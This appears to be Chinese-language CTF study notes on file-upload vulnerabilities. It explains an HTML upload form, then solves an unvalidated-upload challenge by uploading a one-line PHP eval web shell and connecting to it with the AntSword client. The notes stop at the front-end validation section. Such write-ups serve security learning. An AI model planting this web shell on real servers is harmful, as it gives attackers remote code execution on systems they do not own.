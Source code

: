 ```html
<form action="" method="post" enctype="multipart/form-data" onsubmit="return checkfilesuffix()">
       <label for="file">Filename:</label>
       <input type="file" name="file" id="file" />
       <input type="submit" name="submit" value="Submit" />
 </form>
```

* `action=""`：表示表单数据将提交到当前页面。如果需要将数据提交到其他页面，可以在此处填写目标页面的 URL。

* `method="post"`：提交方式为 POST&#x20;

* `enctype="multipart/form-data"`：这是文件上传表单必须设置的属性，用于指定表单数据的编码类型，以支持二进制文件的上传。



*需要特别注意**请求头**中的**Content-Type，它是用来告诉后端我们的数据类型和编码方式的***

# 文件上传

## 无验证

### 题目：

![](images/无验证.png)



![](images/Snipaste_2025-02-08_14-48-26.png)

### 解题

使用工具：蚁剑

创建一个名为ctf.php的文件，写入

```php
<?php @eval($_POST["ctf"]);?>
```

将文件上传

![](images/上传.png)

打开蚁剑

![](images/意见-1.png)

测试连接，显示连接成功

![](images/列表.png)

![](images/f.png)

## 前端验证
